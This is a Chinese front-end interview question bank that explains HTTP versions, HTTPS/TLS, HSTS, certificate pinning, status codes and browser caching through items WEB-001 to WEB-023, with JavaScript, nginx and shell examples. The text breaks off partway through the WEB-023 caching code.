# 前端面试题库：Web / 网络 / 浏览器

本文件收录前端面试中最常考的网络与浏览器知识，覆盖 HTTP 协议演进、HTTPS/TLS、状态码、缓存、Cookie 与 Storage、同源策略与跨域、WebSocket/SSE、DNS/CDN、浏览器渲染、事件循环、Web Workers、PWA、模块化与前端路由。每题配有可直接运行的示例代码或配置，面试时可结合代码展开说明。



## 目录

### 一、HTTP 协议（WEB-001 ~ WEB-010）
### 二、HTTPS 与 TLS（WEB-011 ~ WEB-016）
### 三、状态码（WEB-017 ~ WEB-021）
### 四、浏览器缓存（WEB-022 ~ WEB-028）
### 五、Cookie 与 Web Storage（WEB-029 ~ WEB-033）
### 六、同源策略与跨域（WEB-034 ~ WEB-040）
### 七、WebSocket 与 SSE（WEB-041 ~ WEB-044）
### 八、DNS 与 CDN（WEB-045 ~ WEB-047）
### 九、浏览器渲染流程（WEB-048 ~ WEB-052）
### 十、事件循环（WEB-053 ~ WEB-055）
### 十一、Web Workers、PWA、模块化与前端路由（WEB-056 ~ WEB-060）
### 十二、HTTP 语义进阶（WEB-061 ~ WEB-067）
### 十三、HTTPS 深入（WEB-068 ~ WEB-074）
### 十四、网络性能与传输（WEB-075 ~ WEB-081）
### 十五、浏览器架构与进程（WEB-082 ~ WEB-088）
### 十六、渲染进阶（WEB-089 ~ WEB-095）
### 十七、缓存与存储进阶（WEB-096 ~ WEB-102）
### 十八、安全机制（WEB-103 ~ WEB-109）
### 十九、实时通信进阶（WEB-110 ~ WEB-115）
### 二十、浏览器能力与 API（WEB-116 ~ WEB-123）
### 二十一、综合与演化（WEB-124 ~ WEB-130）
### 二十二、DNS 深入（WEB-131 ~ WEB-136）
### 二十三、代理与网关（WEB-137 ~ WEB-142）
### 二十四、身份认证专题（WEB-143 ~ WEB-150）
### 二十五、安全攻防专题（WEB-151 ~ WEB-158）
### 二十六、浏览器存储与离线深入（WEB-159 ~ WEB-164）
### 二十七、性能采集与分析（WEB-165 ~ WEB-171）
### 二十八、调试与工具（WEB-172 ~ WEB-177）
### 二十九、协议细节陷阱（WEB-178 ~ WEB-183）
### 三十、移动网络与混合环境（WEB-184 ~ WEB-189）
### 三十一、综合排查与收束（WEB-190 ~ WEB-200）

## 一、HTTP 协议

### WEB-001：HTTP/1.1 有哪些核心特性？相对 HTTP/1.0 改进了什么？
**答**：
- 默认长连接：`Connection: keep-alive`，一次 TCP 连接可复用发送多个请求，减少握手开销。
- 引入 Host 头，支持一台服务器部署多个虚拟站点，是后续 CDN 与虚拟主机的基础。
- 支持分块传输 `Transfer-Encoding: chunked`，以及 Range 断点续传（配合 206）。
- 更完善的缓存控制头（`Cache-Control`、`ETag`）和更多请求方法（PUT、DELETE、OPTIONS 等）。
- 缺陷：同一连接上请求是串行响应的，存在队头阻塞；浏览器对同域名并发连接数有限制（一般 6 个）。

```javascript
// HTTP/1.1 报文通过文本头携带关键信息，代码中可读取这些头验证特性
fetch('https://api.example.com/data')
  .then((res) => {
    // HTTP/1.1 长连接复用由浏览器自动管理
    console.log(res.headers.get('connection')); // "keep-alive"
    console.log(res.headers.get('cache-control')); // 例如 "max-age=3600"
    console.log(res.headers.get('content-type')); // "application/json; charset=utf-8"
    return res.json();
  })
  .then((data) => console.log(data));
```

### WEB-002：一个完整的 HTTP 报文由哪几部分组成？
**答**：
- 请求报文：请求行（方法 + URL + 版本）、请求头、空行、请求体。
- 响应报文：状态行（版本 + 状态码 + 原因短语）、响应头、空行、响应体。
- 头部是键值对文本，Body 可以是表单、JSON、二进制等多种形态，由 `Content-Type` 决定解析方式。
- 面试时可现场用 curl 看真实报文，说明 start line、headers、body 的分界。

```bash
# -v 显示请求与响应的完整报文，可清晰看到请求行、头部、空行和响应体
curl -v https://httpbin.org/get

# 只看响应头
curl -I https://httpbin.org/get

# 发送带 JSON 体的 POST 请求，观察 Content-Type 与 body
curl -v -X POST https://httpbin.org/post \
  -H 'Content-Type: application/json' \
  -d '{"name":"fe","level":"senior"}'
```

### WEB-003：什么是 HTTP 队头阻塞？HTTP/1.1 下前端如何缓解？
**答**：
- HTTP/1.1 中一个 TCP 连接同一时刻只能处理一个请求-响应，前一个响应没回来，后面的请求即使已发出也要排队，这就是应用层队头阻塞。
- HTTP 管道化（pipelining）理论上可以连续发送请求，但响应仍必须按序返回，且多数浏览器默认关闭。
- 缓解手段：域名分片（拆成多个子域名绕过 6 连接限制）、雪碧图/内联小资源减少请求数、资源按优先级排队加载。
- 根治要靠 HTTP/2 多路复用（但 TCP 层队头阻塞仍在，直到 HTTP/3/QUIC）。

```javascript
// 演示：HTTP/1.1 同域名 6 个并发限制。超过 6 个请求会排队，
// 前面的响应慢会阻塞后面的请求（队头阻塞在 DevTools Network 的 Waterfall 可见）
async function loadImages(ids) {
  const urls = ids.map((id) => `https://cdn.example.com/img/${id}.png`);
  console.time('http1-queue');
  // 浏览器会自动把并发限制在每域名约 6 个，其余请求进入队列等待
  await Promise.all(urls.map((u) => fetch(u)));
  console.timeEnd('http1-queue');
}
loadImages([1, 2, 3, 4, 5, 6, 7, 8, 9, 10]); // 后 4 个要等前 6 个完成

// 缓解方案一：静态资源走独立域名，扩展并发通道
fetch('https://static2.example.com/img/7.png');
```

### WEB-004：Connection: keep-alive 解决了什么问题？和 HTTP 管道化有什么区别？
**答**：
- 短连接下每个请求都要经历 TCP 三次握手（HTTPS 还要 TLS 握手），成本高；keep-alive 让连接保持打开，多个请求复用同一条连接。
- keep-alive 只是连接复用，请求仍然是"发一个、等一个"的串行模式。
- 管道化允许不等响应就连续发出多个请求，但响应必须按请求顺序返回，慢响应仍会堵住后面的，实践问题多、未普及。
- keep-alive 有超时时间，由服务端的 `Keep-Alive: timeout=xx` 控制，超时后连接关闭。

```nginx
# nginx 配置：keep-alive 超时与最大请求数，属于服务端真实工程配置
http {
    keepalive_timeout 65;      # 连接空闲 65 秒后关闭
    keepalive_requests 100;    # 一条连接最多服务 100 个请求

    upstream app {
        server 127.0.0.1:3000;
        keepalive 32;          # 反向代理到上游也复用长连接，减少握手
    }
}
```

### WEB-005：HTTP/2 的多路复用是怎么工作的？解决了什么问题？
**答**：
- HTTP/2 把报文拆成二进制帧（Frame），一个 TCP 连接里可以同时交错传输多个 Stream（逻辑流），每个 Stream 承载一个请求-响应。
- 帧上有 Stream ID 标识归属，接收端按 ID 重组，多个请求互不等待，解决了 HTTP/1.1 的应用层队头阻塞。
- 并发能力不再受浏览器 6 连接限制，域名分片、雪碧图等 HTTP/1.1 优化手段随之过时甚至有害。
- 注意：所有 Stream 共享一条 TCP 连接，TCP 丢包重传时仍会阻塞所有流，即 TCP 层队头阻塞（HTTP/3 才解决）。

```javascript
// HTTP/2 下多个请求跑在一条连接上，前端写法不变，收益由协议层自动获得
const resources = [
  fetch('/api/user'),
  fetch('/api/orders'),
  fetch('/api/messages'),
  fetch('/static/app.js'),
  fetch('/static/app.css'),
];
// 同一连接上 5 个请求并行交错传输，无需排队等前一个响应结束
const [user, orders, messages] = await Promise.all(resources.slice(0, 3)).then(
  ([u, o, m]) => Promise.all([u.json(), o.json(), m.json()])
);
console.log(user, orders, messages);
```

### WEB-006：HTTP/2 的头部压缩 HPACK 是什么原理？
**答**：
- HTTP/1.1 头部是纯文本，每次请求都重复携带 Cookie、User-Agent 等大块相同内容，浪费带宽。
- HPACK 用两张表：静态表（预定义 61 个常见头）+ 动态表（连接级内存，缓存本次连接出现过的头）。
- 重复的头部只需传一个索引号；不重复的头用哈夫曼编码压缩后再传。
- 动态表要求请求按序到达才能正确解码，这也是 HTTP/2 禁止请求乱序重组失败的原因之一。

```bash
# 用 curl --http2 观察 HTTP/2 连接，头部体积由 HPACK 在传输层压缩，
# 抓包工具如 wireshark 可以看到帧不再有重复的明文 Cookie
curl --http2 -v https://nghttp2.org/ -o /dev/null 2>&1 | head -30

# 服务端（Node.js）验证：http2 模块原生支持 HPACK，头部重复内容只传索引
```

```javascript
// Node.js http2 服务：同一连接反复请求时，重复响应头命中动态表，只传输索引
const http2 = require('http2');
const server = http2.createServer();
server.on('stream', (stream, headers) => {
  stream.respond({
    ':status': 200,
    'content-type': 'application/json',
    'x-custom-trace': 'fixed-value', // 第二次起动态表命中，几乎不占带宽
  });
  stream.end(JSON.stringify({ ok: true }));
});
server.listen(8443);
```

### WEB-007：HTTP/2 Server Push 是什么？为什么后来被废弃了？
**答**：
- Server Push 允许服务器在浏览器请求 HTML 时，主动把页面依赖的 CSS/JS 一并推过去，省去"收到 HTML 再发现依赖再请求"的往返。
- 实际问题：服务器不知道浏览器缓存里已有什么，经常推了已被缓存的资源，浪费带宽；也无法感知资源优先级。
- Chrome 在 106 版本移除了对 Server Push 的支持，推荐用 103 Early Hints（状态码 103 提前告知可加载的资源）替代。
- 面试要点：知道 Push 与 Early Hints 的区别，Early Hints 只是提示，最终是否请求由浏览器决定。

```nginx
# nginx http2_push 配置示例（现已不推荐，面试需说明废弃原因）
server {
    listen 443 ssl http2;
    location = /index.html {
        http2_push /static/app.css;   # 推送页面关键 CSS
        http2_push /static/app.js;
    }
}

# 替代方案 Early Hints：提前返回 103，由浏览器决定是否预加载
# add_header 层面无法发 103，需要 nginx 1.25.1+ 的 early_hints 或应用层支持
```

### WEB-008：HTTP/3 基于 QUIC，相比 HTTP/2 有哪些改进？
**答**：
- 传输层从 TCP 换成 UDP 上的 QUIC：把可靠性、流控、拥塞控制搬进用户态协议，握手集成 TLS 1.3。
- 独立的 Stream 层流控：一个流丢包只重传该流，彻底解决 TCP 层队头阻塞。
- 连接迁移：用 Connection ID 标识连接而非四元组，Wi-Fi 切 4G 不必重新握手。
- 内置 TLS 1.3，握手与传输握手合并，首包即加密；0-RTT 恢复更快。
- 前端感知不大：浏览器与 CDN 配合切换，代码仍然是 fetch。

```nginx
# nginx 1.25+ 开启 HTTP/3 的配置（需要 quic 分支或主线版本）
server {
    listen 443 quic reuseport;          # QUIC 监听（UDP）
    listen 443 ssl http2;               # 同时保留 HTTP/2 走 TCP 兜底
    ssl_certificate     /etc/ssl/cert.pem;
    ssl_certificate_key /etc/ssl/key.pem;
    add_header Alt-Svc 'h3=":443"; ma=86400';  # 告知浏览器可用 HTTP/3
    quic_retry on;
}
```

### WEB-009：QUIC 的 0-RTT 是什么？有什么安全隐患？
**答**：
- 首次连接 QUIC + TLS 1.3 需要 1-RTT 完成握手；会话恢复时客户端可复用此前的密钥材料，在第一个包里就携带加密的请求数据，即 0-RTT。
- 收益：移动弱网下能省一个 RTT，首屏更快。
- 风险：0-RTT 数据没有防重放保护，攻击者可以截获并原样重发这个包；且其中的数据不是前向安全的。
- 工程约定：0-RTT 只用于幂等请求（GET、查询），涉及转账、下单的 POST 禁止放在 0-RTT 中，服务端要校验。

```javascript
// 服务端（Node.js）视角：对 0-RTT 早数据做防御性处理
// 浏览器 fetch 本身不暴露 0-RTT 控制，策略在服务端与 CDN 配置
const http2 = require('http2'); // QUIC 由 nginx/CDN 终结，应用仍走 HTTP/2
const server = http2.createServer((req, res) => {
  const isEarlyData = req.headers['x-early-data'] === '1'; // nginx 注入的标记
  if (isEarlyData && req.method === 'POST') {
    // 非幂等请求拒绝走 0-RTT，要求客户端完整握手后重发
    res.writeHead(425, { 'content-type': 'application/json' }); // 425 Too Early
    return res.end(JSON.stringify({ error: 'retry after handshake' }));
  }
  res.end(JSON.stringify({ ok: true }));
});
server.listen(8443);
```

### WEB-010：GET 和 POST 的区别？什么是幂等性？
**答**：
- 语义上 GET 是安全幂等的（只读、重复执行结果一致），POST 非幂等（重复提交会重复创建）。
- GET 参数在 URL 里，受长度与缓存影响，可被收藏/缓存；POST 参数在 Body，默认不缓存。
- 本质上都是 TCP 上的报文，"GET 有长度限制"是浏览器和服务器对 URL 的限制，不是协议限制。
- 幂等性直接影响重试策略：GET/PUT/DELETE 可安全重试，POST 重试必须带幂等键（如 Idempotency-Key）。

```javascript
// 用幂等键防止 POST 重复提交，这是支付/下单场景的标准做法
async function createOrder(order) {
  const key = crypto.randomUUID(); // 同一笔订单业务侧应保持同一个 key
  const res = await fetch('/api/orders', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json',
      'Idempotency-Key': key, // 服务端对该 key 去重，网络重试不会重复下单
    },
    body: JSON.stringify(order),
  });
  if (!res.ok) throw new Error(`create order failed: ${res.status}`);
  return res.json();
}

// 对比：GET 失败可以直接无脑重试，因为它幂等
async function safeGet(url, retries = 3) {
  for (let i = 0; i < retries; i++) {
    try {
      const res = await fetch(url);
      if (res.ok) return res.json();
    } catch (e) {
      /* 网络错误，继续重试 */
    }
  }
  throw new Error('get failed after retries');
}
```

## 二、HTTPS 与 TLS

### WEB-011：HTTPS 为什么采用对称加密 + 非对称加密的混合方案？
**答**：
- 纯对称加密（AES）：快，但双方要预先共享密钥，明文传密钥等于没加密。
- 纯非对称加密（RSA）：公钥可公开，但性能比对称加密慢几个数量级，不适合传输大流量。
- 混合方案：握手阶段用非对称加密安全地交换对称密钥（或通过 ECDHE 协商），之后的数据传输全用对称加密。
- 现代主流是 ECDHE 交换密钥 + AES-GCM 加密数据，兼顾安全与性能。

```javascript
// Node.js 演示混合加密的思想：RSA 解出对称密钥，再用 AES 解数据
const crypto = require('crypto');

// 服务端持有私钥，客户端用公钥加密一次性对称密钥
const { publicKey, privateKey } = crypto.generateKeyPairSync('rsa', {
  modulusLength: 2048,
});

// 客户端侧：生成会话密钥并用公钥封装
const sessionKey = crypto.randomBytes(32); // AES-256 密钥
const iv = crypto.randomBytes(16);
const cipher = crypto.createCipheriv('aes-256-gcm', sessionKey, iv);
const encrypted = Buffer.concat([cipher.update('hello https', 'utf8'), cipher.final()]);
const tag = cipher.getAuthTag();
const wrappedKey = crypto.publicEncrypt(publicKey, sessionKey); // RSA 封装密钥

// 服务端侧：私钥解出对称密钥，再解数据
const unwrapped = crypto.privateDecrypt(privateKey, wrappedKey);
const decipher = crypto.createDecipheriv('aes-256-gcm', unwrapped, iv);
decipher.setAuthTag(tag);
const plain = Buffer.concat([decipher.update(encrypted), decipher.final()]);
console.log(plain.toString('utf8')); // hello https
```

### WEB-012：描述一次完整的 TLS 1.2 握手过程。
**答**：
- ClientHello：客户端发送支持的 TLS 版本、加密套件列表、客户端随机数。
- ServerHello + Certificate：服务器选定套件，返回证书、服务器随机数；（RSA 密钥交换时）可能带 ServerHelloDone。
- 客户端验证证书链后，用公钥加密预主密钥发给服务器；双方用两个随机数 + 预主密钥算出会话密钥。
- 双方互发 Finished（用会话密钥加密的校验值），验证成功后开始加密通信。
- TLS 1.3 把握手压缩到 1-RTT，并废弃了 RSA 密钥交换（不支持前向安全）。



### WEB-013：什么是中间人攻击？证书链如何防御它？
**答**：
- 中间人（MITM）在客户端和服务器之间劫持流量，用自己的假证书冒充服务器，没有证书校验的加密通信仍会被窃取。
- 防御核心是证书信任链：操作系统/浏览器内置根 CA 公钥，服务器证书由中间 CA 签发，逐级签名可验证到根，伪造者拿不到 CA 私钥就造不出可信证书。
- 证书里绑定了域名（SAN）与有效期，客户端校验域名匹配、未过期、未被吊销。
- 开发环境用 mkcert 生成本地受信证书，避免图省事直接跳过证书校验。

```bash
# 查看真实网站的证书链，验证从叶子证书到根 CA 的逐级签名
openssl s_client -connect github.com:443 -servername github.com -showcerts </dev/null 2>/dev/null | openssl x509 -text -noout | head -20

# 开发环境：mkcert 生成本地信任的证书，避免 Node/浏览器报自签名错误
brew install mkcert
mkcert -install                       # 把本地根证书加入系统信任
mkcert localhost 127.0.0.1 ::1        # 生成 localhost.pem 与 localhost-key.pem

# 危险做法（仅调试）：跳过证书校验会重新打开中间人攻击的口子
# curl -k https://target.com   # -k 忽略校验，生产禁止
```

### WEB-014：什么是 HSTS？解决什么问题？
**答**：
- HTTPS 站点首次访问前，用户直接输入域名走的还是 HTTP，存在被劫持跳转的风险窗口。
- HSTS 通过响应头 `Strict-Transport-Security` 告诉浏览器：在 max-age 内，所有对该域名的访问强制走 HTTPS，且禁止用户点击"继续访问不安全链接"。
- 仅对 HTTPS 响应生效，HTTP 响应里的 HSTS 头会被忽略；可配合 `includeSubDomains` 覆盖子域。
- 还可申请加入浏览器 HSTS Preload 列表，连第一次访问都强制 HTTPS。

```nginx
# nginx 开启 HSTS 的标准配置
server {
    listen 443 ssl;
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains; preload" always;

    # 把所有 HTTP 请求 301 到 HTTPS（HSTS 生效前兜底）
}
server {
    listen 80;
    return 301 https://$host$request_uri;
}
```

### WEB-015：TLS 1.3 相比 TLS 1.2 有哪些关键改进？
**答**：
- 握手从 2-RTT 减到 1-RTT，支持会话恢复时 0-RTT。
- 删除不安全套件：移除 RSA 静态密钥交换、CBC 模式、RC4、MD5 等，只保留 AEAD（AES-GCM、ChaCha20-Poly1305）。
- 强制前向安全：密钥交换只允许（EC）DHE，私钥泄露也无法解密历史流量。
- 握手过程中的 ServerHello 之后大部分消息已加密，减少元信息暴露。

```nginx
# TLS 1.3 生产配置：只保留安全套件，开启会话恢复
server {
    listen 443 ssl;
    ssl_protocols TLSv1.2 TLSv1.3;
    ssl_ciphers ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES256-GCM-SHA384;
    ssl_prefer_server_ciphers off;      # TLS 1.3 忽略此指令，由客户端优先
    ssl_early_data on;                  # 开启 0-RTT（注意重放风险，见 WEB-009）
    ssl_session_cache shared:SSL:10m;
    ssl_session_timeout 1d;
    ssl_session_tickets on;             # 会话票据，配合 1-RTT 恢复
}
```

### WEB-016：HTTPS 已经加密了，抓包工具（如 mitmproxy/Charles）为什么还能看到明文？
**答**：
- 抓包工具本质是自己充当中间人：对客户端伪装成服务器，对服务器伪装成客户端，各建一条 TLS 连接。
- 客户端信任它的前提是：设备里安装了抓包工具的根证书，于是假证书也能通过校验。
- 所以"HTTPS 防中间人"的前提是用户不主动安装不可信根证书；企业代理、家长控制类软件都是这个原理。
- 防御：APP 内置证书锁定（SSL Pinning），只信任指定证书/公钥，即使系统被装根证书也连不上。

```javascript
// Node.js 演示 SSL Pinning：校验服务器证书指纹，拒绝被代理的连接
const tls = require('tls');

const EXPECTED_FINGERPRINT = 'AA:BB:CC:DD:...'; // 上线前固化服务端证书的 SHA-256 指纹

const socket = tls.connect(
  {
    host: 'api.example.com',
    port: 443,
    servername: 'api.example.com',
  },
  () => {
    const cert = socket.getPeerCertificate();
    // 代理工具的假证书指纹与预期不符，直接断开
    if (cert.fingerprint256 !== EXPECTED_FINGERPRINT) {
      socket.destroy();
      console.error('certificate pinning failed, possible MITM');
    } else {
      console.log('server identity verified');
      socket.end();
    }
  }
);
```

## 三、状态码

### WEB-017：301、302、307、308 有什么区别？
**答**：
- 301 永久重定向、302 临时重定向：浏览器可能会把 POST 改写成 GET 再跳转（历史兼容行为）。
- 307/308 是 HTTP/1.1 补充：307 临时 + 不允许改方法，308 永久 + 不允许改方法。
- 实践：接口迁移用 308/307 保住 POST 语义；旧 URL 下线用 301；登录回跳用 302/307。
- 对 SEO 而言 301 会转移权重，302/307 不会。

```javascript
// Express 服务端重定向示例，直观对比四种重定向的语义差异
const express = require('express');
const app = express();

app.post('/v1/orders', (req, res) => {
  // 接口永久迁移且必须保持 POST 方法：用 308
  res.redirect(308, '/v2/orders');
});

app.post('/login', (req, res) => {
  // 登录成功后临时跳转：307 保持 POST（表单提交场景），或 302 期望浏览器转 GET 时用
  res.redirect(307, '/dashboard');
});

app.get('/old-article/:id', (req, res) => {
  // 文章 URL 永久变更：301，搜索引擎会把权重转到新地址
  res.redirect(301, `/articles/${req.params.id}`);
});
app.listen(3000);
```

### WEB-018：304 Not Modified 是怎么工作的？
**答**：
- 304 属于协商缓存流程：浏览器带着缓存的校验头（`If-None-Match` 对应 ETag，或 `If-Modified-Since` 对应 Last-Modified）去问服务器。
- 资源没变，服务器返回 304 且无响应体，浏览器直接用本地缓存；变了则返回 200 + 新资源。
- 304 只在响应里有 `Cache-Control: no-cache` 或缓存过期时才会触发，`max-age` 未到期不会发请求。
- 304 的收益是省流量不省请求：请求仍然发生，弱网下仍有延迟，强缓存才是零请求。

```javascript
// Node.js 原生实现协商缓存，观察 304 的产生条件
const http = require('http');
const crypto = require('crypto');

const resource = { body: JSON.stringify({ version: 42 }), type: 'application/json' };
const etag = crypto
  .createHash('sha256')
  .update(resource.body)
  .digest('hex')
  .slice(0, 16);

http
  .createServer((req, res) => {
    res.setHeader('Cache-Control', 'no-cache'); // 每次都要协商，允许 304
    if (req.headers['if-none-match'] === etag) {
      res.writeHead(304); // 资源未变：无响应体
      return res.end();
    }
    res.writeHead(200, { 'Content-Type': resource.type, ETag: etag });
    res.end(resource.body);
  })
  .listen(3001);
// 第一次请求 200 带 ETag；第二次请求带 If-None-Match，命中则返回 304
```

### WEB-019：204 和 206 分别用在什么场景？
**答**：
- 204 No Content：成功且无响应体，典型是前端埋点上报、DELETE 成功，省掉多余的空 body。
- 206 Partial Content：配合 `Range` 请求头返回部分内容，用于视频拖动进度条、大文件断点续传、多线程下载。
- 响应带 `Content-Range: bytes start-end/total` 表明范围；Range 不合法返回 416。
- CORS：2022 起 fetch 规范已把「单区间」`Range` 加入 safelist，简单请求不再因它触发预检；但响应侧 `Content-Range` 默认不可读，服务端需 `Access-Control-Expose-Headers: Content-Range`，多区间 Range 仍属需预检头。

```javascript
// 文件服务器实现 Range 断点续传，理解 206 的产生
const http = require('http');
const fs = require('fs');
const { promisify } = require('util');
const stat = promisify(fs.stat);

http
  .createServer(async (req, res) => {
    const filePath = '/data/videos/demo.mp4';
    const { size } = await stat(filePath);
    const range = req.headers.range;

    if (!range) {
      res.writeHead(200, { 'Content-Type': 'video/mp4', 'Content-Length': size });
      return fs.createReadStream(filePath).pipe(res);
    }

    // 解析 "bytes=1048576-" 形式
    const [startStr, endStr] = range.replace(/bytes=/, '').split('-');
    const start = Number(startStr);
    const end = endStr ? Number(endStr) : size - 1;

    res.writeHead(206, {
      'Content-Type': 'video/mp4',
      'Content-Range': `bytes ${start}-${end}/${size}`,
      'Accept-Ranges': 'bytes',
      'Content-Length': end - start + 1,
    });
    fs.createReadStream(filePath, { start, end }).pipe(res);
  })
  .listen(3002);

// 客户端埋点上报：服务端约定返回 204，无 body 省流量
fetch('https://t.example.com/collect', { method: 'POST', body: '{"evt":"pv"}' });
```

### WEB-020：常见的 4xx 状态码分别代表什么？前端如何针对性处理？
**答**：
- 400 参数错误、401 未认证（缺 token 或 token 失效）、403 已认证但无权限、404 资源不存在、405 方法不支持、429 请求过于频繁。
- 401 通常触发"跳登录/刷新 token"，403 提示无权限界面，二者语义不能混用。
- 429 要读取 `Retry-After` 头做退避重试，而不是立即重发。
- 统一在请求层拦截处理，避免每个业务代码都写一遍。

```javascript
// 封装统一的状态码拦截处理
async function request(url, options = {}) {
  const res = await fetch(url, options);
  switch (res.status) {
    case 401: {
      // 尝试用 refresh token 换新 token 后重放请求
      const refreshed = await fetch('/api/auth/refresh', { method: 'POST' });
      if (refreshed.ok) return request(url, options); // 换到新 token，重发原请求
      location.href = '/login'; // 刷新也失败，跳登录
      return Promise.reject(new Error('unauthorized'));
    }
    case 403:
      return Promise.reject(new Error('没有权限执行此操作'));
    case 429: {
      const retryAfter = Number(res.headers.get('Retry-After') || 2);
      await new Promise((r) => setTimeout(r, retryAfter * 1000)); // 退避后重试
      return request(url, options);
    }
    default:
      if (!res.ok) return Promise.reject(new Error(`HTTP ${res.status}`));
      return res.json();
  }
}
```

### WEB-021：502 和 504 有什么区别？排查思路是什么？
**答**：
- 502 Bad Gateway：网关（nginx/网关层）收到了上游的无效响应或连接被拒，通常是上游进程挂了、崩溃、端口不通。
- 504 Gateway Timeout：网关在超时时间内没等到上游响应，通常是上游太慢（慢 SQL、下游阻塞、GC 停顿）。
- 排查顺序：先看 nginx error log 定位是连接失败还是超时，再看上游服务日志与监控，最后看中间件（DB/缓存）。
- 前端层面对策：网关超时时间要覆盖接口 P99 耗时，必要时改异步任务 + 轮询。

```bash
# 排查 502/504 的常用命令链
tail -n 100 /var/log/nginx/error.log          # 1. 看网关日志：connect() failed 还是 upstream timed out
curl -sv http://127.0.0.1:3000/healthz        # 2. 直接探活上游服务
ss -ltnp | grep 3000                          # 3. 确认上游进程和端口还在

# nginx 关键参数：504 多数是 proxy_read_timeout 太短
```

```nginx
# 网关超时配置示例：读写超时覆盖慢接口
location /api/ {
    proxy_pass http://app;
    proxy_connect_timeout 5s;     # 连不上上游：很快变成 502
    proxy_read_timeout 60s;       # 上游不吐数据超过 60 秒：504
    proxy_next_upstream error timeout; # 单实例故障自动切下一台，缓解偶发 502
}
```

## 四、浏览器缓存

### WEB-022：强缓存是什么？Cache-Control 有哪些常用指令？
**答**：
- 强缓存：浏览器本地直接使用缓存，不发请求（DevTools 里显示 from disk/memory cache），响应头是 `Cache-Control`（优先级高于 `Expires`）。
- `max-age=N` 相对秒数有效期；`no-cache` 不走强缓存但仍可协商缓存；`no-store` 彻底不缓存。
- `private` 仅浏览器可缓存（代理/CDN 不缓存），`public` 都可缓存；`immutable` 表示有效期内绝不变化，连重验证都不需要。
- `max-age=0, must-revalidate` 等价于每次都协商，是 HTML 的常见配置。

```javascript
// Express 展示典型静态资源缓存策略
const express = require('express');
const app = express();

// 带 hash 的静态资源：一年强缓存 + immutable，文件名变了缓存自然失效
app.use(
  '/static',
  express.static('dist', {
    setHeaders(res) {
      res.setHeader('Cache-Control', 'public, max-age=31536000, immutable');
    },
  })
);

// HTML 本身：永远协商，保证用户拿到最新入口
app.get('/', (req, res) => {
  res.setHeader('Cache-Control', 'no-cache');
  res.sendFile('index.html', { root: 'dist' });
});
app.listen(3003);
```

### WEB-023：协商缓存 ETag 和 Last-Modified 的原理与优先级？
**答**：
- 服务器下发 ETag（资源指纹）与 Last-Modified（修改时间）；浏览器再次请求时带上 `If-None-Match` 与 `If-Modified-Since`。
- 服务器两把钥匙都收到时优先比对 ETag，命中才继续看 Last-Modified；ETag 优先级更高。
- Last-Modified 秒级精度，1 秒内多次修改检测不出；分布式机器 mtime 不一致会误判；ETag 内容寻址更准但计算有成本。
- 有的场景可以只用 ETag，或自定义 ETag 生成规则（如版本号 + 文件哈希）。

```javascript
// 同时使用 ETag 与 Last-Modified 的协商缓存实现
const http = require('http');
const fs = require('fs');

http
  .createServer((req, res) => {
    const filePath = './app.js';
    const stat = fs.statSync(filePath);
    const body = fs.readFileSync(filePath);
    const etag = `W/"${stat.size}-${stat.mtimeMs}"`; // 弱 ETag：按大小+时间生成

    const inm = req.headers['if-none-match'];
    const ims = req.headers['if-modified-since'];

    // ETag 优先：匹配则直接 304；不匹配再看 Last-Modified
